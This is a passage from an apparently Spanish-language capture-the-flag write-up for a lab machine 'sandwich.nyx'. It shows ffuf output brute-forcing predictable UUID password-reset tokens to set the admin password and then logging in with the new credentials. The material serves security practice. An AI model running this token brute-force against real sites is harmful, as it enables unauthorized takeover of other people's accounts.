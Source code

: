 ```

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : POST
 :: URL              : http://sandwich.nyx/resetpassword.php
 :: Wordlist         : FUZZ: /home/kali/Desktop/sandwich/uuids.txt
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Data             : token=FUZZ&new_password=diseo&confirm_password=diseo
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 420
________________________________________________

2053bbd6-792f-11f0-8069-080027197fe7 [Status: 200, Size: 408, Words: 57, Lines: 16, Duration: 1441ms]
2053dc88-792f-11f0-8069-080027197fe7 [Status: 200, Size: 408, Words: 57, Lines: 16, Duration: 7307ms]
[WARN] Caught keyboard interrupt (Ctrl-C)
```

Veremos que ha funcionado, en el codigo pusimos como `password` el nombre `diseo` vamos a ver si ha funcionado.

Llendonos a la pagina principal y dandole a `login` pondremos las actuales credenciales:

```
Email = admin@sandwich.nyx
Pass = diseo
```

Info:
